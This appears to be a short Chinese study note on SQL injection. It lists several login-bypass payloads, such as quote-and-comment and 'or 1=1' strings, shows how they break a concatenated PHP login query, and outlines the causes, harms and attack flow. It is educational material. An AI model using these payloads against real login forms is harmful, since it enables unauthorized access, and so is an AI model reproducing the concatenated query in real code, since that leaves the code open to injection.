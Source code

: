 


# SQL注入

是一种常见web漏洞； 

---

## 万能用户

> 万能用户

```txt
777'--    #注意是单引号减减空格 （-- 是注释写法）  （注意，在url中空格需要+号表示）
777' or '1'='1
777' or 1=1 #
777' or '1'='1 -- #减减空格
```

> 原因： SQL查询语句拼接问题

```php
select userid from cms_users where username='{用户名}' and password='{md5(密码)}'

//注入后：777' or 1=1 #
select userid from cms_users where username='777' or 1=1 #' and password='{md5(密码)}'
```

![image-20240326205810808](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240326205810808.png)



## SQL注入原理

> SQL注入原理

通过用户可控参数中注入SQL语句，破坏SQL语句原有结构，达到编写程序时意料之外的攻击行为；

造成原因：1.使用字符串拼接方式构造SQL语句；2.未对用户输入的数据进行足够的过滤；

> SQL注入危害

1. 攻击者可以利用漏洞对数据库进行增删改查操作；
2. 如果数据库权限分配存在问题，还可以通过sql注入直接获取webshell或者服务器权限；

> SQL注入流程

库-->表-->列-->数据

---

> SQL注入分类

![image-20240326183137840](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240326183137840.png)



## SQL漏洞挖掘
